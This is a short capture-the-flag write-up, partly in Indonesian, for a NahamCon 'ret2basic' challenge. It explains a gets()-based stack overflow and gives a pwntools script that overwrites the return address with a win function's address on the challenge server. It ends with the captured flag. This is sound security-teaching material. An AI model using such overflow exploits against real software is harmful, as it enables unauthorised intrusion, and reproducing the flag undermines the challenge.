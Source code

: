 # ret2basic
---
Can you ret2win?

Download the file below and press the Start button on the top-right to begin this challenge.
Connect with:

nc challenge.nahamcon.com 30111

# Solver
---
Diberikan sebuah binary dimana binary tersebut menggunakan ```gets()``` untuk menerima input dari user. Hali ini vuln buffer overflow. Tinggal saya cari offset lalu RSP saya masukkan fungsi ```0000000000401215 <win>``` untuk mendapatkan flag
```
from pwn import *
chall = ELF("./chall")
p = process("./chall")
#nc challenge.nahamcon.com 30111
p = remote("challenge.nahamcon.com", 30111)
pattern = "A"*cyclic_find("faab")
#0000000000401215 <win>:
flag = p64(0x0000000000401215)
p.recvuntil("Can you overflow this?: ")
#raw_input("GDB gan")
p.sendline(pattern + flag)
p.interactive()
```
#### flag{d07f3219a8715e9339f31cfbe09d6502}
